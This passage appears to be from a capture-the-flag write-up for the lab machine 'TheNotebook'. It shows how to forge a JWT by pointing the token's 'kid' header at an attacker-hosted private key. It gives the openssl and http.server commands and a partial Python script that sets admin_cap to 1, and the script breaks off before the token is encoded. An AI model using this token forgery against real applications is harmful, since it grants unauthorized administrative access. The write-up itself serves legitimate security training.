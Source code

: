 ![](src/TheNotebook-04.png)
- the token is copied to jwt.io for analysis
- it is a kid token which can be encoded with any key, in this case it was the server's private key
- the payload indicates admin capability of 0. 
- chaning this to 1 requires a new kid token to be generated.

### generate private key
````bash
openssl genrsa -out privKey.key 2048
````

### host the private key
````bash
python3 -m http.server 7070
````

<hr>

### generate the token using the private key

````python
# gentoken.py
#
import requests
from urllib3.exceptions import InsecureRequestWarning
import time
import jwt
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
epoch = time.time()

headers = {"typ": "JWT","alg": "RS256","kid": "http://10.10.14.17:7070/privKey.key"}

payload = {"username": "qdada","email": "qdada@thenotebook.htb","admin_cap":1}
````